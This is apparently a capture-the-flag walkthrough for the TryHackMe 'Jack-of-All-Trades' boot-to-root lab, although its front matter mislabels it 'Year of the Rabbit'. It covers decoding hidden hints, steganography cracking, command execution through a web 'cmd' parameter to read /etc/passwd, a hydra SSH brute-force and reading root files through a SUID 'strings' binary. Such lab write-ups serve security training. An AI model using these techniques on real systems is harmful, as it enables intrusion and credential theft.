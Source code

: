 ```yaml
---
title: Walkthrough - Year of the Rabbit
published: false
---
```


Securit-Tay, Conference, Challenge, Boot-to-Root. Boot-to-root originally designed for Securi-Tay 2020.

[https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

* * *

## Notes

> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

- nmap give us two ports an ssh and a http server that are swapped around. 

```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.12 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- in order to view the site on port 22 in firefox we have to add this string to about:config ``network.security.ports.banned.override``.

- viewing the source code we find a page ``/recovery.php`` and a base64 encoded text, ``UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==``

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

- lets save this to a list for later ``echo "u?WtKSraq" > passwords.list``

- we also find another comment on recovery.php 

```
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

- decode from base32

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

- and decode from ascii

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

- and finally ROT-13

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- which is a hint to use steganography to find the creds for the recovery.php page
- a few images on the homepage one of which is stego.jpg. lets check them out.
- we can use passwords.list to get the cred.txt from stego

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- header.jpg

```
stegseek header.jpg passwords.list 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "u?WtKSraq"
[i] Original filename: "cms.creds".
[i] Extracting to "header.jpg.out".

┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Jack-of-All-Trades]
└─$ cat header.jpg.out        
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

now we get to a page where we can possibly lfi using the paramater ``cmd``

- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=id``
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=ls%20/home`` - ``jack jacks_password_list jacks_password_list``
- ``view-source:http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list`` and save to the password.list
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

- ``hydra -l jack -P passwords.list 10.10.86.12 -s 80 ssh``

- ``[80][ssh] host: 10.10.86.12   login: jack   password: ITMJpGGIqg1jn?>@``

* * * 

## What is the user flag?

![0xskar](/assets/jack-of-all-trades05.png)

- ``scp -P 80 jack@10.10.86.12:/home/jack/user.jpg .``

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` - ``/usr/bin/strings`` has suid set so we can read any file on the system.

- ``strings /root/root.txt``

* * * 

